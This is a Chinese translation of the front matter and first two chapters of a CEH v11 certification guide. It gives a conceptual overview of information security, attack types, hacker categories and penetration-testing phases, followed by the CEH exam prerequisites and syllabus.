# 道德黑客认证指南 (CEHv11)：涵盖网络黑客、社会工程和漏洞评估的渗透测试全面指南（英文版）


# 献给

已故 Shaheen Atique 夫人和 Mohd Atique 博士

你们给了我所渴望的一切

# 关于作者

 **Mohd Sohaib** 是一位数字安全爱好者，也是认证道德黑客。他曾以多种身份参与网络安全行业，范围涵盖从举办座座会和工作坊、参与漏洞赏金活动，到教育来自不同阶层的人士了解数字世界的本质以及如何保持自身安全。

他还是题为“信息系统的可持续安全”的论文的合作者，该论文在信息/网络安全新兴趋势会议 (ETINS) 上获得了最佳论文奖。Sohaib 撰写过关于关注群体动态和数字交互的博弈论论文。他还经常与教育机构合作，为他们的道德黑客和安全课程开发课程和实操实验室。

他在软件开发和设计方面拥有十年经验，他目前致力于为现代数字世界构建高度扩展且安全的解决方案。

# 关于评审员

 **Arun Soni** 是一位来自印度昌迪加尔（Chandigarh）的国际著名作者和网络安全专家。他为学校/学院和普通公众编写了 159 本关于信息技术、人工智能和网络安全的书籍。他的书籍在印度和国外被数百万学生广泛阅读。

他曾荣入**林卡记录册**，获得“37 岁时编写最多的计算机书籍”类别。他还拥有许多其他国家和国际记录。

他还是 EC Council（美国）的认证道德黑客 (CEH) 和网络安全顾问，致力于传播网络安全意识。由于他在计算机教育和网络安全方面的贡献，他……

# 致谢

简化数字概念可能是最重要的一步。随着云、数字货币等技术的进步，数字世界的复杂性呈指数级增长，风险处于前所未有的高位。

我无法感谢这个团队的支持。写这本书的旅程就像过山车一样。如果没有……，这是不可能的。

特别感谢……

# 前言

本书分为三个部分，每部分旨在针对不同水平的专家。

**第一部分**帮助用户了解网络安全世界的。它还帮助读者评估先验知识，从而决定学习进度。

**第二部分**引导用户了解数字系统的各个方面，其安全性、渗透测试、黑客方法、工具以及缺陷的缓解。

**第三部分**帮助读者为网络安全行业的发展或所学知识的应用铺平未来的道路。

我们对 BPB Publications 的工作感到非常自豪，并遵循最佳实践以确保内容的准确性，为我们的订阅者提供沉浸式的阅读体验。读者是我们的镜子，我们利用他们的反馈来反映并改进在出版过程中可能发生的任何人为错误（如果有）。为了让我们保持质量并帮助我们联系任何可能因不可预见的错误而遇到困难的读者，请通过以下邮箱联系我们：

`errata@bpbonline.com`

BPB Publications 全体非常感谢您的支持、建议和反馈。

您知道吗？BPB 的每本书都提供电子书版本，包括 PDF 和 ePub 文件。您可以在 [www.bpbonline.com](http://www.bpbonline.com) 升级到电子书版本，作为纸质书客户，您有权享受电子书折扣。请通过 `business@bpbonline.com` 与我们联系获取更多详情。

在 [www.bpbonline.com](http://www.bpbonline.com)，您还可以阅读免费技术文章集，订阅一系列免费时事通讯，并接收 BPB 书籍和电子书的专属折扣和优惠。

# 第 1 章 网络安全、道德黑客与渗透测试

## 引言

计算领域创新和进步的速度是惊人的。从每分钟执行几条指令的巨型机器到每秒执行数百万条指令的手持设备，计算不仅已经进化了，而且变得更加负担得起。

## 结构

我们将涵盖以下主题：

- 网络安全简介
- 安全原理
- 黑客概念

## 目标

本章将重点于向您介绍信息系统世界及其相关的风险。在学习完本章后，您应该对系统如何工作以及您可以做什么来确保安全有一个基本的了解。

## 全局视角

一个完美的系统是一个神话。好吧，如果你准备好将其深埋六米之下且永远不切换回来，那么就不是了。但同样，我们中并没有多少人有这种选择或实际上会使用它。

## 网络安全

在深入研究网络安全的重要性和技巧之前，让我们建立几个定义：

- **信息系统**：任何包含或通向数据、信息、资源或杠杆的逻辑和物理资产都是信息系统。从你办公桌上的一个备录到口袋里的手机，再到企业数据中心，它们的存在本身就是信息系统。
- **信息安全**：保护信息资产免受未经授权和未经验证的访问、修改、检索或删除，同时为实际系统用户提供有意义的访问，这构成了信息安全的本质。因此，安全可以是保镖的形式、一套锁和钥匙，或者高级的多因素身份验证。

全球信息技术支出预计将达到 3.8 万亿美元。仅美国市场就占了 1.8 万亿美元。对于印度来说，IT 和 ITES 行业在 2018-19 年增长了 181 亿美元。

有趣但往往被忽视的事实是，信息技术行业构成了几乎从制造业到最后一公里货物配送的所有行业的支柱。这使其成为一个庞大的行业，对世界经济产生了巨大的影响。

根据保险提供商 Hiscox 的数据，数字事件的平均成本为 200,000 美元，60% 的企业在受害后六个月内破闭。另一份报告指出了一个事实：受影响的企业发现很难吸引新客户。

全球黑客攻击的总成本不断增加，按照目前的趋势，每年将达到 4,000 亿美元。2018 年，62% 的企业经历过钓鱼和社交工程攻击。71% 的泄露事件是以财务为目的的。

尽管信息和客户记录是数字偷窃犯的首要目标，但其他项目还包括：

- 勒索软件：一种为了获取货币利益而将数字资产作为人质的代码。该代码通常会加密其感染的信息，而攻击者是唯一能够随时解密受损信息的人。
- 拒绝服务攻击：通过向通信通道发送大量请求来淹没底层系统并干扰业务。
- 财务欺诈：通过冒充合法用户或通过不同手段获取其资产来实施欺诈。
- 网络行动主义：活动主义者针对支持不道德商业行为或轻微犯罪行为的数字基础设施进行攻击。
- 网络恐怖主义：新时代恐怖分子使用的手段，他们通过数字基础设施将政府和军事设施作为目标。
- 出于报复或竞争而恶意损害目标声誉。

虽然人们期望软件解决方案在本质上是安全且防篡改的，但几乎所有的解决方案都不是如此。让我们先定义一下哪些因素会影响信息系统的安全性：

- 源代码质量：部署于应用程序的源代码质量将直接影响应用程序的安全性。对于开发者来说，确保应用程序没有漏洞和后门入口是至关重要的。例如，确保应用程序不处理或执行通过输入外部馈的任何脚本代码。
- 开发环境：不安全的开发或测试平台可能导致包含与代码和系统功能无直接关联的漏洞。这些包括编译代码结构中的漏洞以及底层系统对其进行解释时的漏洞。
- 部署环境：应用程序的实际最终居住地是其部署环境，它主要是由多个软件解决方案组成的生态系统。由于代码将在该环境中执行，因此确保环境本身像代码一样经过彻底清理至关重要。部署环境中可能存在不受限制的网络访问、后门和漏洞，这些漏洞可能未被供应商察觉，或未被系统管理员修补。
- 系统管理员：维护系统并经常访问应用程序环境的人通常是泄露的主要媒介。跳过补丁、粗心处置敏感废弃物或简单地不遵循标准操作指南，一直会导致大规模的数据泄露。
- 终端用户：虽然大部分开发是根据应用程序使用的理想场景完成的，但终端用户实际上是所有人都中最不可预测的。良好的系统设计可以努力覆盖所有的执行路径，但对于拥有庞大用户群的应用程序来说，这是一个无法完成的任务。另一个问题是恶意用户，他们加入系统只是为了破坏它。
- 技术进步：虽然进步对系统来说听起来是很好的，但升级已部署的解决方案以使其达到水平通常需要成本。这往往导致环境在一段时间后变成多种技术的混合，不再像初始阶段那样互补。此外，供应商倾向于停止对旧系统的支持和修补，以专注于维护新系统。这使得旧系统面临更大的风险。

现在用六英尺深的混凝土埋听起来不是个坏主意，对吧？唯一的问题是，你会发现自己被排除在所存储的信息之外，每次检索都会成为一种真正的痛苦。这确立了信息系统的另一个事实——可访问性和可用性的重要性。信息策略通常基于三个基本原则定义：

- 机密性：确保存储的信息保持机密，避开窥探的目光，避免任何未经授权的访问。
- 完整性：确保存储的信息保持原始形式，并且不通过未经授权的手段发生任何篡改。这包括维护合法系统用户访问和操作的记录，以便让他们对自己的行为负责。
- 可用性：存储的信息需要按照约定的方式，让合法方随时、及时地获取并访问。正如正义一样，交付太晚的信息是无用的信息。

除了这些之外，还有两个原则有助于完善信息安全闭环：

- 真实性：确保每个用户收到的信息都是真实的信息，并在信息传输的每一步都提供一种检查真实性的方法。在 62% 的企业都暴露在钓鱼和社交工程攻击风险之中的，这一点显得尤为需要。
- 不可否认性：这保证了某信息是由可识别的源成功且真实地发送，并确实由目标接收的。不可否认性确保信息通信不会产生推测，发送方和接收方都无法否认参与交易。

图 1.2：有效信息安全解决方案的组件

良好的信息系统会考虑这些因素，并建立一个最优策略以确保数字资产具有可接受的安全性。

*optimal*（最优）和*acceptable*（可接受）这两个词在这里极其重要。每个基础原则占据了相应的份额：

- 努力：实施某项措施需要努力，为合法用户为其开辟大门也同样如此。
- 时间：每一份努力都有对应的时间线。此外，每个门禁都会引入访问延迟。
- 成本：对于每一组努力和时间，都会产生相关的开发和维护成本。

除了这些之外，还将在以下方面进行权衡：

- 功能：随着功能数量的增加，应用程序的占用会增加，风险因素也会随之增加。在消息平台中增加视频需要视频上传、视频存储和视频流功能。这些都是需要跟踪和控制的额外资产。
- 可用性：现在的数字系统不仅关注其实际，同样关注用户体验。虽然对企业级应用的关注较少，但市场对外观美观、体验良好的软件的需求日益增长。随着访问限制和信息访问策略的增加，由于用户操作和协商这些策略所需的时间开销，系统的可用性会大幅下降。

现在我们已经定义了所有基础知识，是时候讨论一下这两个术语——*optimal*和*acceptable*，以及为什么它们与信息系统相关联。

让我们比较两个不同系统的信息系统安全需求。一种是免费的在线出版系统，每周向在线订阅者的电子邮箱发送连环漫画。另一种是用于处理患者的电子健康记录，供在线 24*7 小时访问。

### 免费连环漫画订阅服务

为了简单起见，我们假设系统中了两类参与者：

- `发布者`：汇编漫画并将其发布到订阅者邮箱箱的人员或系统。
- `订阅者`：感兴趣的人，在订阅区域填写其邮箱 ID 以接收每周的电子邮件。

系统中存储的信息将是：

- 订阅者的电子邮箱地址
- 订阅日期

最基本的安全考虑是存储邮件记录，以防止订阅记录被意外添加或删除。

### 电子健康记录服务

电子健康记录的基础部分包含以下参与者：

- `患者`：记录所属的人员。
- `医生`：创建、添加和引用记录的人员。
- `机构`：进行检查和健康相关操作的医院或其他机构。

信息系统将包含：

- 患者身份识别信息，如姓名、性别、年龄、联系方式
- 患者生命体征信息，如身高和体重
- 患者病史
- 患者过敏情况
- 医生信息
- 医院人员信息
- 预约信息等
- 保险和支付信息
- 系统中每个参与者的登录凭据

显而易见，与连环漫画订阅系统相比，电子健康记录系统拥有的数据量非常巨大。然而，设计的驱动力必须是这里每个系统中存储信息的性质。

订阅系统存储的信息是邮箱 ID。一个人的邮箱 ID 可以被视为其数字地址。破解邮箱 ID 会使人员暴露在垃圾邮件、邮件泛滥以及可能的欺诈网关面前。由于没有身份识别信息，因此用户不会直接受到身体上的影响。另一种可能的结果是攻击删除了所有订阅数据库，导致服务失去订阅者。另一种可能性是攻击者获取了发送服务的控制权，并利用它来发送恶意邮件。

最后一种可能性将最严重的威胁，因为已经订阅的用户会信任来自发送者的邮件，因此面临更高的财务欺诈风险。

该系统最大的风险是财务欺诈。

电子健康记录系统存储了一系列个人信息。系统的泄露将暴露患者的行踪、医疗状况、财务记录、保险信息和生命记录。此外，更多关于医生执业和医院记录的信息也可能泄露。

所有这些数据都可以黑市出售，由于它们与个人识别数据有关，会有很多买家。这些数据可用于伪造 ID、保险欺诈、勒索、延迟治疗，对于动机极强的专业人士来说，健康记录造成的伤害比子弹还要大。

该系统的最大风险是生命。

对于连环漫画出版系统，基本的安全措施包括：

- 用于发布连环漫画的密码认证

额外的措施还包括：

- 加密存储的邮箱 ID
- 使用安全通道供用户订阅服务
- 订阅库进行定期备份

对于电子健康记录，基本的安全特性包括：

- 人员登录的高安全身份验证过程
- 信息的加密存储
- 不同地理位置的多份备份
- 每次通信的安全通道
- 患者信息访问和更新的访问日志
- 系统补丁策略
- 信息清理策略

增加的功能还包括：

- 系统中所有活动的审计日志
- 数据一致性检查
- DOS 防护系统
- 侵入检测系统

从这两个案例可以看出，并非所有信息系统都需要相同程度的安全。决策因素包括：

- 哪些信息需要安全保护？
- 所有资产都需要安全保护吗？
- 所有资产都需要相似的安全保护吗？
- 资产需要安全保护多久？
- 如果安全措施失败会有什么后果？
- 资产暴露在什么样的环境中？
- 系统将与哪些内部或第三方系统交互？
- 用户需要什么样的访问？
- 接受的访问延迟是多少？
- 什么样的用户将访问系统？

通过对这些系统的这些因素进行校准，我们可以确定保护信息的最佳且可接受的策略。

在继续之前，让我们简要查看信息系统的主要安全考虑。为此，理解漏洞的切入点至关重要：

### 操作系统

用于托管应用程序的操作系统本身可能包含某些漏洞。这些本质上是设计或配置中的某些错误，对于商业项目或活跃的开源项目通常已修复。利用这些漏洞的主要原因在于系统补丁和安全更新不及时。

### 环境配置

在部署应用程序时，除了应用程序本身外，还有多个组件在运行。这些主要包括应用程序服务器、内部外部网络、数据库访问等。所有这些都有一些环境默认值和初始配置，如默认密码、默认访问和其他安全配置。安全的系统设计会处理这些并移除任何不需要的配置并将默认值修改为更安全的值。然而，在许多情况下，系统配置人员忘记或忽略了这些，导致系统暴露在各种威胁之中。

### 信息系统问题

如果设计不当，实际使用的系统也会面临多种漏洞。这些漏洞可能源于设计不当、缺失验证、代码注入等。这些漏洞的另一个原因是系统中实施的第三方代码和库的问题。这些库本身可能使用了默认配置，或者包含了在实施时被忽略的已知问题。这些会导致直接的系统破解，并且通常最容易利用。

上述讨论的因素构成了漏洞的系统端。然而，泄露的主要原因通常是信息安全行业中更大的因素：用户交互。通常作为薄弱环节，弱密码、松散的信息、无意泄露和内部人员导致了大部分问题。

这引出了数字信息系统主要攻击向量的讨论。

 92% 的恶意软件是通过电子邮件交付或启动的。PURPLESEC

### 恶意软件

恶意软件由特殊设计的代码组成，用于在宿主机上执行特定的恶意操作。这些操作包括为攻击者提供远程访问权限、修改、删除或传输主机机器数据、为窃取信息创建后门等。常见的恶意软件包括病毒、蠕虫、木洛马、僵尸网络和勒索软件。恶意软件通过用户发起的动作（如点击链接、安装软件或连接外部存储或网络）进入主机系统。

**图 1.3:** 过去十年恶意软件感染的总成本 -- PURPLESEC

### 钓鱼攻击

网络钓鱼是指伪装合法资源或信息的行为，让用户与之交互，并在不知不觉的情况下传递真实的系统信息，如凭据、信用卡信息等。此类攻击通常在用户打开被攻击者污染的链接时启动。用户并没有访问实际资源，而是落入一个伪装页面并被诱骗执行各种操作。

3 次攻击中有 2 次包含恶意链接。

每 2 次包含嵌入的恶意软件。

### 系统加固

分析应用程序环境和攻击面，以识别并移除未使用的代码、不需要的功能以及默认环境配置的过程。这可以在系统的多个层面进行，包括但不限于：

- 应用层
- 操作系统
- 服务器
- 数据库
- 网络

### Web 攻击

Web 攻击包括对 Web 接口主要是企业网站）的攻击机会。常见的有 SQL 注入和跨站脚本攻击。这些攻击利用薄弱的输入验证和安全考虑来注入并执行代码段。SQL 注入目标是底层数据库以访问凭据和底层应用模型，而跨站脚本针对在客户端浏览器中执行的前端 JavaScript，从而通过客户端浏览器执行恶意脚本。

### 拒绝服务

拒绝服务或 DOS 攻击旨在通过海量的流量和请求淹没服务，导致实际预期用户无法访问。这会导致服务中断和业务损失。攻击本身并不旨在窃取或更改信息，但通常用作其他恶意活动的掩护和分心手段。考虑到应用程序的规模及其部署硬件，DOS 攻击通常通过多个系统同时汇聚进行。这确保了在单个攻击者的系统资源耗尽之前就能达到目标容量。这种协作被称为分布式拒绝服务或 DDoS 攻击。

### 会话攻击

会话可以定义为应用程序从 Web 端到服务器的一组用户交互。安全 Web 应用程序的一种做法是在会话开始时验证用户身份，并将身份信息存储在服务器端的对象中，并将标识符发送到 Web 端。随后的请求基于传递给服务器的参数进行验证，服务器根据其端的会话信息进行校验。会话处理不当会导致会话劫持或中间人攻击，在这种情况下，攻击者获得了活动用户会话的访问权限或将其复制，系统无法区分攻击者和合法用户。

### 凭据收集

由于在应用和网站中拥有巨大的数字足迹，如今的一个常见问题是凭据的存储和记忆。这通常导致凭据薄弱且容易被破解。另一个问题是，当人在多个应用程序中使用同一组凭据时，其中一个被攻破会导致所有账户都受到损害。

### 内部威胁


组织内部威胁可能是难缓解的，指的是对系统内部运作有部分或完全了解的人员策划的攻击。安全意识差或评估不足导致意外泄露往往是因素之一，但主要的是，这些通常是不满的员工或试图通过出售内部信息来快钱的人。如果信息访问策略没有安全地处理离职员工且其权限没有及时撤销，就会出现另一个问题。

现在我们已经对信息系统和安全方面有了基本的了解，是时候了解游戏中的实际参与者了。

**图 1.4:** 破解事件来源 --PURPLESEC

## 道德黑客

黑客是指通过捷径进入并绕过系统的行为。这一过程通过弯曲、规避和重新工程系统的规则来实现个人目标。对于信息系统来说，它是获取他人无权拥有的信息或资源的行为。

理解黑客的一个简单现实世界例子是跳启动汽车。在正常情况下，汽车电池支持点火，启动过程开启了汽车。但假设你某晚上忘记关灯，导致第二天早上电池电量耗尽了。一种解决方案是将车拖到修理厂给电池充电，或者自己拆下电池进行充电。然而，我们大多数人使用的一个更简单的解决方案是找另一辆车，将跳线线的一端连接到正常汽车的电池及其金属部位上，另一端连接到你的汽车电池上。你启动正常汽车，并用它为熄火汽车中的电电池提供电压。大多数情况下，这个技巧是有效的，可以省去去修理厂或拆卸电池充电的麻烦。

跳启动汽车的行为：

* 起到了某个目的：即使电池尚未充电，它也能帮助汽车启动。
* 规避了既定的通用流程：不是使用汽车自身的电池，而是使用另一辆车的电池帮助启动汽车。
* 未改变自然过程：如果汽车跳启动过一次，并不需要每次都跳启动。如果电池正常，通常点火系统就能工作。

虽然前两点构成了该过程的核心，但最后一点是额外的优势。

从非常粗浅的意义上说，我们每天都会对一个或多个系统进行黑客操作，以便在现有方法不可行或方便时不完成某些工作。在数字信息系统上采用相同思路的人被称为黑客。

黑客的目的通常是：

* 在没有任何恶意意图的情况下获取知识或信息
* 窃取机密信息用于欺诈、间谍活动等
* 导致服务或业务中断
* 担任数字活动家，传播社会问题的意识
* 引起恐慌和恐怖，从而像数字恐怖分子一样
* 执行政府间谍任务和国家支持活动
* 在非法活动中寻求刺激和冒险
* 评估系统边界以提高系统安全

根据攻击的性质和实际意图，黑客分类如下：

**黑帽：** 也称为破解者，这些是在法律范围之外进行破坏性工作的黑客。黑帽采用恶意技术针对其宿主机，并且往往在进行非法工作。

**白帽：** 这些是与组织或执法部门合作的黑客。白帽通过分析系统可能存在的威胁，来确定攻击的性质并进行损害评估。他们拥有应用程序所有者提供的合法许可来破解系统，并且通常在受控的非生产环境中工作。

**灰帽：** 他们是那些在白帽和黑帽之间游走的黑客。灰帽客不遵循任何固定的原则，可能会为执法部门工作，甚至参与数据窃取。

**黑客行动主义者：** 这些是带有传播议程的网络活动分子。其议程可能是政治、宗教、社会，或仅仅是无政府主义。黑客行动主义最常用的方法是网站篡改，即获取网页访问权限并更改其内容以达到自己的目的。这些活动大多数也是非法的。

**网络恐怖分子：** 黑客行动主义与网络恐怖主义之间存在着微妙的界限。黑客行动主义可能试图传播社会意识并关注实际问题，而网络恐怖分子与其在现实世界中的对手一样，致力于恐吓世界。他们的活动包括在网上目标攻击政府和军事设施、制造财务困境以及破坏网络。他们可能是私人性质的，也可能是国家支持的。

**脚本小子：** 这些是玩弄由真正的黑客制作的成品脚本和工具的个人。脚本小子没有任何真正的黑客技能，依赖于已记录的漏洞和攻击手段来实现他们的目标。

伦理黑客指的是在事先获得许可的情况下作为黑客的行为。这里的许可是指系统所有者根据某些约定的合同，对破解系统授予的许可和适当批准。伦理黑客帮助系统所有者在漏洞被公开之前，识别并减轻由漏洞造成的任何损害。这里的关键方面是获得系统所有者的事先批准。如果在批准之前进行攻击，即使意图是向系统所有者报告，这些行为也可能被视为非法并导致起诉。白帽黑客通常可以被称为伦理黑客。

## 攻击阶段

1. **侦察：** 这涉及收集有关目标系统的信息。这是一个准备阶段，黑客在此阶段尽可能多地收集目标信息。信息收集手段从个人接触、产品目录到职位列表以及垃圾信息采集不等。

2. **扫描：** 一旦侦察确定了系统及其位置，就会对系统进行扫描。扫描包括端口扫描、网络映射和漏洞扫描。

3. **获取访问：** 这是实际操作阶段，黑客利用在前几个阶段获得的知识攻入系统。初始访问可能是一个低权限账户，攻击者尝试将其提升到所需的权限，可能是管理员级别。

4. **维持访问：** 攻击的一个重要方面是让黑客下次能够以更较的精力返回系统。如果攻击需要持续很长时间，这一点就至关重要。这要求在系统中创建黑客所已知的后门。

5. **清除痕迹：** 如果攻击不是为了暴露系统漏洞，那么清除所有攻击痕迹是非常必要的。这包括任何可以识别黑客的位元，甚至是识别攻击本身的位元。成功的攻击是不被察觉的。这通常需要重写日志、修改注册表值并删除安装在目标系统上的攻击工具。

## 渗透测试

渗透测试是指在受控环境中对信息系统模拟黑客方法，以便在漏洞暴露于真实世界之前识别并修复它们。执行此项活动的人被称为渗透测试员。

除了识别漏洞外，渗透测试还有助于识别系统在不同层面的安全策略漏洞，以及对既定策略的合遵循情况。

虽然对系统进行定期的渗透测试是好事，但一旦出现以下情况，测试就变得必要：

* 网络配置更改
* 重大的应用级变更
* 基础设施变更
* 环境升级
* 策略更新
* 第三方系统集成

**图 1.5：** 渗透测试流程

为了确保渗透测试有效，在实际执行之前必须进行适当的计划和记录。渗透测试中的一些重要阶段包括：

**目标系统识别：** 这包括识别需要进行渗透测试的信息系统。

**攻击面识别：** 涉及识别测试范围。它将需要测试的系统模块以及将在其中进行测试的环境。

**策略确定：** 用于识别所需的测试类型。可能需要非破坏性技术，或者系统可能需要破坏性测试。这基本上制定了环境中允许的测试策略。

**工具：** 识别并批准在过程中使用的工具。在实际使用之前，获得工具及使用计划的批准至关重要。这主要是因为这些工具往往具有破坏性，需要团队进行专家处理，且系统所有者需要了解任何风险。市场上有很多许多标准工具和开源工具，可以很容易地识别标准的系统漏洞。其中一些工具包括 `Metasploit`、`Netsparker`、`Probely`、`Nmap`、`Wireshark` 等。

**进度：** 指创建测试计划表。这不仅为测试人员提供了时间线，还向信息系统的利益相关者提供了状态和要求的信息。

**交付物：** 就系统所有者预期和要求的成功标准以及最终交付物达成一致是非常重要的。明确理解这一点可以节省资源，并且应在实际开始测试之前完成。

**批准：** 一旦测试计划就绪且执行路径清晰，必须获得系统所有者对相关活动的批准。这有助于消除任何误解，过程中可能涉及的任何风险也可以在此处变得明确。

**执行：** 这一阶段是测试计划的实际执行。这通常涉及使用针对标准漏洞校准的自动化工具。

**报告：** 测试计划执行后，需要按照约定的标准格式记录结果。报告必须包含所有执行的测试、结果、对系统的可能风险影响以及任何其他发现。

虽然渗透测试员和伦理黑客之间存在非常微妙的界限，但结果通常是相同的：预防性漏洞以识别漏洞。

## 结论

在随后的章节中，我们将讨论此处使用的各种流程和术语的定义、如何操作以及为什么。我们还将行动分类到黑客或渗透测试的阶段，以提供一个视角。

在本章中，我们涵盖了网络安全的通用实践、它对我们信息系统的影响及其重要性。我们还涵盖了系统在成本、努力和价格方面所做的权衡，这些权衡反过来决定了数字资产的可用性和安全性。

现在，你至少应该对信息系统的重要性、影响、网络安全流程、黑客攻击方法及其分类有一个宏观认识。你还应该对黑客与道德黑客或渗透测试员之间的区别有良好的理解。

在下一章中，我们将深入研究认证道德黑客认证的先决条件和结构。我们将概述课程大纲，以更好地了解所涵盖的概念、获得认证所需的准备，以及通用的道德黑客知识。

# 第 2 章 CEH v11 先决条件与教学大纲

## 引言

随着网络安全市场的指数级增长，出现了许多课程和认证，旨在为个人做好准备。`EC-Council` 的 `CEH` 凭借其涵盖的范围以及为了适应最新的攻防方法论进展而进行的定期更新，可能是这些其中最受认可和接受的认证。随着时间的推移，`CEH` 已成为理解网络安全和道德黑客核心概念的标准认证之一。它也是许多网络安全工作的的基本要求，并为为成为一名有效的道德黑客职业生涯提供很大帮助。

## 结构

我们将在本章中涵盖以下主题：

* `CEH` 和 `EC-Council`
* 第 10 版和第 11 版中的新内容
* 先决条件
* 学习和考试模式
* 教学大纲

## 目标

我们将涵盖认证道德黑客认证的结构。这包括新版本信息、考试结构和教学大纲。在完成本章后，你应该熟悉 `CEH v11` 考试基础以及我们将在后续章节中涵盖的概念。

## 认证道德黑客

认证道德黑客（`CEH`）是道德黑客领域最广泛认可的认证之一。它由 `EC-Council` 提供，是与 `CEH Practical` 和认证网络防御员一起提供的网络取证、漏洞评估和渗透测试领域的核心认证之一。它涵盖了最新的安全领域，并为网络安全职业生涯提供了坚实的平台。

该认证的主要收获包括：

* 对道德黑客的深入理解
* 掌握：
    * 数字信息系统的威胁
    * 威胁识别
    * 威胁预防
    * 威胁缓解
* 利用黑客知识进行渗透测试
* 开启信息安全领域的职业路径

## 版本 10 & 11

`EC-Council` 一直在升级 `CEH` 的内容和结构，以与其随时间变化的数字世界保持同步。通过 `CEH v10`，`EC-Council`：

* 使 `CEH v10` 完全符合其 `NICE 2.0 Framework`
* 增加了物联网（`IOT`）模块
* 升级了漏洞评估材料
* 添加了新兴攻击向量：云和 `AI`
* 理论与实践的比例为 60:40
* 增加了 2 个额外模块，总共 20 个模块
* 跨越 Microsoft、Mac、Unix 和移动端的 2285 种工具
* 解释了 340 种攻击技术
* 恶意软件分析

第 11 版包括：

* 在云模块中加入了如 `Docker` 和 `Kubernetes` 等容器技术
* 对 `IOT` 威胁的深度覆盖
* 现代恶意软件分析和无文件恶意软件
* 认证与 `NIST/NICE Framework` 的兼容性

## 先决条件

满足 `CEH` 资格有两种途径：

* 参加官方 `EC-Council` 培训：`EC-Council` 以多种模式为该认证提供培训。人员可以参加任何他们喜欢的模式并进入认证流程。
* 无需官方培训：若要在没有官方培训的情况下获得 `CEH` 认证，你必须满足以下条件：
    * 具有 2 年或以上记录在案的信息安全经验。
    * 缴纳 100.00 美元的不可退费用。
    * 提交 `CEH` 考试资格表以及来自雇主的安全领域经验证明。
    * 如果缺乏经验，你可以根据你的教育背景申请例外，决定权完全归 `EC-Council` 所有。

## 学习和考试模式

在准备 `CEH` 时，`EC-Council` 根据考生的方便程度以多种方式提供官方培训。你可以直接通过 `EC-Council` 网站注册，或联系合作伙伴，他们可以帮助你注册并提供认证考试的官方培训。`EC-Council` 规定的官方培训模式为：

* 导师引导的培训
* 基于计算机的培训
* 现场在线培训
* `EC-Council` 官方培训合作伙伴提供的定制培训课程

获取 `CEH` 考试券有两种两种选项：

### 选项 1：ECC 考试券

**考试交付模式**：在线，考试由远程监考。

**要求**：良好的网络连接及摄像头。

**预约期**：测试前至少 3 个工作日。

（你的考试将在在线远程监考；只要你有良好的网络连接和摄像头，你可以选择在家里或办公室参加。）

### 选项 2：VUE 考试券

**考试交付模式**：VUE 测试中心，考试监考将亲自出现在现场。

**要求**：找到一个你选择的 `Pearson Vue` 测试中心。

**预约期**：取决于测试中心的可用性。

## 教学大纲

**题目数量**：125 题

**测试时长**：4 小时

**测试格式**：多选择

**考试选项**：ECC 考试，VUE

**考试代码**：312-50

`CEH v11` 包含 20 个模块。每个模块对应当前数字安全环境的一部分的方法论或实践。以下是根据 `EC-Council` 列出的模块详细清单：

### 模块 01：道德黑客导论

* 1.1. 信息安全概述
* 1.2. 理解信息安全威胁和攻击向量
* 1.3. 黑客概念、类型和阶段概述
* 1.4. 理解道德黑客概念和范围
* 1.5. 信息安全控制措施概述
* 1.6. 渗透测试概述
* 1.7. 信息安全法律和标准概述

### 模块 02：足迹追踪与侦察

* 2.1. 理解足迹追踪概念
* 2.2. 通过搜索引擎进行足迹追踪
* 2.3. 通过网络服务进行足迹追踪
* 2.4. 通过社交网站进行足迹追踪
* 2.5. 理解网站足迹追踪的不同技术
* 2.6. 理解邮件足迹追踪的不同技术
* 2.7. 理解竞争情报的不同技术
* 2.8. 理解 Whois 足迹追踪的不同技术
* 2.9. 理解 DNS 足迹追踪的不同技术
* 2.10. 理解网络足迹追踪的不同技术
* 2.11. 通过社会工程学进行足迹追踪
* 2.12. 足迹追踪工具
* 2.13. 足迹追踪防御措施
* 2.14. 足迹追踪渗透测试概述

### 模块 03：网络扫描

* 3.1. 网络扫描概述
* 3.2. 扫描工具
* 3.3. 理解各种扫描技术
* 3.4. 理解超越 IDS 和防火墙的各种扫描技术
* 3.5. 标识符抓取
* 3.6. 绘制网络拓图
* 3.7. 扫描渗透测试概览

### 模块 04：枚举

* 4.1. 理解枚举
* 4.2. 理解 NetBIOS 枚举的不同技术
* 4.3. 理解 SNMP 枚举的不同技术
* 4.4. 理解 LDAP 枚举的不同技术
* 4.5. 理解 NTP 枚举的不同技术
* 4.6. 理解 SMTP 和 DNS 枚举的不同技术
* 4.7. 理解 IPsec、VoIP、RPC 和 Linux 枚举
* 4.8. 枚举防御
* 4.9. 枚举渗透测试概览

### 模块 05：漏洞分析

* 5.1. 理解漏洞评估概念
* 5.2. 漏洞评估解决方案
* 5.3. 理解漏洞评分系统
* 5.4. 漏洞评估工具
* 5.5. 理解漏洞评估报告

### 模块 06：系统破解

* 6.1. 理解系统破解概念
* 6.2. 理解获取系统访问的不同密码破解技术
* 6.3. 理解权限提升技术
* 6.4. 理解创建和维护系统远程访问的技术
* 6.5. 理解隐藏恶意程序的技术
* 6.6. 理解隐藏入侵证据的技术
* 6.7. 系统破解渗透测试概览

### 模块 07：恶意软件威胁

* 7.1. 恶意软件简介及其传播技术
* 7.2. 木马概览、类型及其如何感染系统
* 7.3. 病毒和蠕虫概览、类型及其如何感染文件
* 7.4. 理解恶意软件分析流程
* 7.5. 恶意软件防御
* 7.6. 反病毒软件
* 7.7. 恶意软件渗透测试概览

### 模块 08：嗅探

* 8.1. 嗅探概念概览
* 8.2. 理解 MAC 攻击
* 8.3. 理解 DHCP 攻击
* 8.4. 理解 ARP 毒化
* 8.5. 理解 MAC 欺骗攻击
* 8.6. 理解 DNS 毒化
* 8.7. 嗅探工具
* 8.8. 嗅探防御
* 8.9. 理解检测嗅探的各种技术
* 8.10. 嗅探渗透测试概览

### 模块 09：社会工程

* 9.1. 社会工程概念概览
* 9.2. 理解各种社会工程技术
* 9.3. 理解内部威胁
* 9.4. 理解社交网络网站上的冒充
* 9.5. 理解身份盗取
* 9.6. 社会工程、内部威胁和身份盗取的防御
* 9.7. 社会工程渗透测试概览

### 模块 10：拒绝服务

* 10.1. 理解 DoS/DDoS 概念
* 10.2. 理解不同的 DoS/DDoS 攻击技术
* 10.3. 理解僵尸网络
* 10.4. DDoS 案例研究概览
* 10.5. 理解各种 DoS/DDoS 攻击工具
* 10.6. 理解检测 DoS/DDoS 攻击的不同技术
* 10.7. DoS/DDoS 防护工具
* 10.8. DoS 攻击渗透测试概览

### 模块 11：会话劫持

* 11.1. 理解会话劫持概念
* 11.2. 理解应用层会话劫持
* 11.3. 理解网络层会话劫持
* 11.4. 会话劫持工具
* 11.5. 会话劫持防御
* 11.6. 会话劫持渗透测试概览

